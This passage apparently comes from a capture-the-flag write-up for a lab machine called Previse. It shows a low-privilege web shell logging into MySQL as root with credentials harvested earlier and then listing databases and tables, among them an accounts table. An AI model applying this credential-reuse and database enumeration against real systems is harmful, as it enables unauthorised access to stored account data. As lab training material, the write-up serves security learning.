 // As www-data user we dont have permissions on the user

// Since we got mysql credentials earlier lets see what we can get 

// This [website](https://dev.mysql.com/doc/mysql-getting-started/en/) helped me a lot to navigate in the mysql DataBase

    $ mysql -u root -p previse                         
    mysql -u root -p previse
    Enter password: mySQL_p@ssw0rd!:)

------

    mysql> show databases;
    show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | previse            |
    | sys                |
    +--------------------+
    5 rows in set (0.00 sec)

    mysql> show databases;
    show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | previse            |
    | sys                |
    +--------------------+
    5 rows in set (0.00 sec)

    mysql> use previse;
    use previse;
    Database changed
    mysql> show tables;
    show tables;
    +-------------------+
    | Tables_in_previse |
    +-------------------+
    | accounts          |
    | files             |
    +-------------------+
    2 rows in set (0.00 sec)
